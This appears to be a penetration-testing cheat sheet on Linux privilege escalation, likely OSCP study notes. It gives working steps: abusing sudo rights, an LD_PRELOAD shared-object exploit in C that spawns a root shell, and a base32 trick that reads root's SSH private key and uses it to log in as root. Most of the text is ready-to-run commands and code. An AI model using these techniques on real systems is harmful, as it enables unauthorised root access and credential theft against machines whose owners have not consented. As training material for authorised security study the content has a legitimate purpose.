 # Linux Privilege Escalation 

## Sudo
List the programs which sudo allows your user to run:

`sudo -l`

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io)) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

Automatically check of bins are vulnerable
https://github.com/tjnull/OSCP-Stuff/tree/master/Priv-esc/Linux


### sudo 

`sudo usr/bin/sudo su`

### Environment Variables - LD_PRELOAD and LD_LIBRARY_PATH

It should show on the second line of output to `sudo -l`

Open a text file and paste the content

```
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 

void _init() 
{
unsetenv("LD_PRELOAD"); 
setgid(0); 
setuid(0);
system("/bin/bash"); 
}
```

Save the file as x.c

Compile `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`

Run `sudo LD_PRELOAD=/tmp/x.so apache2`


### base32
```
LFILE=/root/.ssh/id_rsa 
base32 "$LFILE" | base32 --decode > ssh_key 
```

```
chmod 400 ssh_key 
ssh root@$ip -i ssh_key
```
